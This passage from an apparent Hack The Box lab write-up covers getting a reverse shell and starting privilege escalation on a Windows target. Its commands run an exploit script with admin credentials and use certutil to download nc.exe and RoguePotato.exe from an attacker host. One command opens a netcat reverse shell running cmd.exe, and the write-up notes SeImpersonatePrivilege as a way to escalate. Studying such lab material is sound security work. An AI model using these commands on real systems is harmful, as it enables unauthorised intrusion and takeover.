 ## Reverse shell

Let's get a reverse shell.

First we upload a copy of netcat to the target using this command

```bash
python 49488.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180/ -c powershell.exe -a 'certutil -urlcache -f http://10.10.17.90/nc.exe C:/Windows/Temp/nc.exe'
```

Now we setup a listener then tell netcat to connect to us and executing cmd.exe

```bash
python 49488.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180/ -c powershell.exe -a 'C:/Windows/Temp/nc.exe 10.10.17.90 9001 -e cmd.exe'
```

![](6.png)

# **Privilege Escalation**

## RoguePotato

Let's check our privileges.

```terminal
C:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

C:\windows\system32\inetsrv>
```

We see that we have the `SeImpersonatePrivilege` privilege.

To exploit this privilege we'll be using [RoguePotato](https://github.com/antonioCoco/RoguePotato).

We upload RoguePotato.exe to the target.

```bash
python 49488.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180/ -c powershell.exe -a 'certutil -urlcache -f http://10.10.17.90/RoguePotato.exe C:/Windows/Temp/RoguePotato.exe'
```
